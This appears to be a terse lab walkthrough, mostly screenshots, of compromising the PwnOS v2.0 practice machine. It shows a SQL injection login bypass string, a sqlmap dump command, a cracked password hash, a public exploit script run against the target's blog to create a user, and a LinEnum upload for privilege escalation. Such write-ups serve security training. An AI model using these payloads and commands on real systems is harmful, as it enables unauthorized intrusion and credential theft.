 # PwnOS_v2.0

![image-20200610201133904](assets/PwnOS_v2.0.assets/image-20200610201133904.png)

![image-20200610201312543](assets/PwnOS_v2.0.assets/image-20200610201312543.png)





nikto

![image-20200610201535808](assets/PwnOS_v2.0.assets/image-20200610201535808.png)

![image-20200610201652233](assets/PwnOS_v2.0.assets/image-20200610201652233.png)





![image-20200610205402607](assets/PwnOS_v2.0.assets/image-20200610205402607.png)

```bash
admin' or '1'='1'#
```

![image-20200610205559588](assets/PwnOS_v2.0.assets/image-20200610205559588.png)

登录无内容，保存登录包到文件，执行sqlmap注入

```bash
sqlmap -r login.txt  -dump
```



![image-20200610212725066](assets/PwnOS_v2.0.assets/image-20200610212725066.png)

`c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

![image-20200610212952414](assets/PwnOS_v2.0.assets/image-20200610212952414.png)

`killerbeesareflying`

另一页面

![image-20200610215354192](assets/PwnOS_v2.0.assets/image-20200610215354192.png)



![image-20200610215318888](assets/PwnOS_v2.0.assets/image-20200610215318888.png)

searchsploit

![image-20200610215953606](assets/PwnOS_v2.0.assets/image-20200610215953606.png)

![image-20200610220014421](assets/PwnOS_v2.0.assets/image-20200610220014421.png)



```bash
perl 1191.pl -h http://10.10.10.100/blog/ -e 3 -U evil -P evil
```

![image-20200610215918661](assets/PwnOS_v2.0.assets/image-20200610215918661.png)

![image-20200610220117364](assets/PwnOS_v2.0.assets/image-20200610220117364.png)

![image-20200610220413203](assets/PwnOS_v2.0.assets/image-20200610220413203.png)



![image-20200610221755087](assets/PwnOS_v2.0.assets/image-20200610221755087.png)



![image-20200610221048765](assets/PwnOS_v2.0.assets/image-20200610221048765.png)



![image-20200610221833155](assets/PwnOS_v2.0.assets/image-20200610221833155.png)

上传LinEnum到目标可写的/tmp，并执行

![image-20200610223726170](assets/PwnOS_v2.0.assets/image-20200610223726170.png)



![image-20200610224133592](assets/PwnOS_v2.0.assets/image-20200610224133592.png)



![image-20200610222729375](assets/PwnOS_v2.0.assets/image-20200610222729375.png)

![image-20200610222755529](assets/PwnOS_v2.0.assets/image-20200610222755529.png)

![image-20200610222829813](assets/PwnOS_v2.0.assets/image-20200610222829813.png)